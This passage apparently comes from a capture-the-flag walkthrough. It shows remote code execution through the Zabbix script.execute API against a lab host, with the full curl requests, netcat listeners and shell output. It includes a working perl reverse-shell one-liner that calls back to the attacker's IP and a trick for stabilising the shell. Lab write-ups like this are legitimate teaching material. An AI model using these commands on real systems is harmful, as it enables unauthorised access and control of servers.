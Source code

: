 
With a listener running (`nc -lnvp 443`), I’ll hit the script.execute api
again. This time it just hangs (and eventually times out):

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": 10106, "scriptid": 4}}' | jq -c .
    {"jsonrpc": "2.0","error": {"code": -32500,"message": "Application error.","data": "Connection timeout of 60 seconds exceeded when connecting to Zabbix server \"localhost\"."},"id": 1}
    

But in my other window, I have a shell:

    
    
    root@kali# nc -lvnp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:42864.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
    $ horoot@kali#
    

But only for a second. It dies very quickly (after I get through the `ho` in
`hostname`).

#### Stable Shell

I can get around this by being ready to run a second reverse shell in the
window when it comes back. I can do this programmatically using `cat` and
pipes. I’ll put a `perl` reverse shell into a file:

    
    
    root@kali# cat perl.shell 
    perl -e 'use Socket;$i="10.10.14.14";$p=445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    

Then I’ll start my listener on 443 with that shell being `cat` into it:

    
    
    root@kali# cat perl.shell | nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    

Now I’ll start a normal listener on 445.

So in the first window, I `curl`:

    
    
    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": "10106", "scriptid": 5}}' | jq -c .
    {"jsonrpc": "2.0","error": {"code": -32500,"message": "Application error.","data": "Timeout while executing a shell script."},"id": 1}
    